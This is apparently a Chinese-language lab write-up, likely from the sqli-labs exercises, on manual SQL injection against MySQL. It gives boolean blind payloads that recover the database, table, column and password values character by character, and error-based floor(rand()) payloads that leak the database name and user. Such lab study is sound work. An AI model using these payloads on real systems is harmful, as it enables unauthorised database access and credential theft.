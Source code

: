 手工注入时可使用例如**left((select database()),1)<'t'** 这样的比较二分查找方法快速爆破

#### 暴库payload

```mysql
?id=1' and left((select database()),1)='s'--+
```

可以看>'t'无回显，而<'t'有回显。

最终确定的库名为security

#### 爆表payload

```mysql
?id=1' and left((select table_name from information_schema.tables where table_schema=database() limit 1,1),1)='r' --+
```

修改limit x,1和left中的位数限定数字，爆破到第一张表为referer，终于在第三张表爆破到user表，名为users

#### 爆列名payload

```mysql
?id=1' and left((select column_name from information_schema.columns where table_name='users' limit 4,1),8)='password' --+
```

定向爆破制定password为字段名，最后找到第4个字段为password，同理看看有没有username，最后到找到了，接下来只需要爆破这两个字段的值就完事

#### 爆字段payload

```mysql
?id=1' and left((select password from users order by id limit 0,1),1)='d' --+
```

按照id排序，这样便于对应。注意limit 从0开始.最后爆破到第一个用户的名字dumb，密码dumb，需要注意的是，MySQL对大小写不敏感，所以你不知道是Dumb 还是dumb

布尔型的盲注比较烦的的就是手工注入很麻烦，必须慢慢试



#### 爆库payload

```mysql
?id=-1'union select count(*),count(*), concat('~',(select database()),'~',floor(rand()*2)) as a from information_schema.tables group by a--+
//或者
?id=-1'union select 1,count(*), concat('~',(select database(),'~'),floor(rand()*2)) as a from information_schema.tables group by a--+
//注意本本方法具有随机性，原理待研究
```

![img](https://img-blog.csdn.net/20180819134305207?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxNDIwNzQ3/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)

#### 爆用户payload

```mysql
?id=-1' union select count(*),1, concat('~',(select user()),'~', floor(rand()*2)) as a from information_schema.tables group by a--+
```

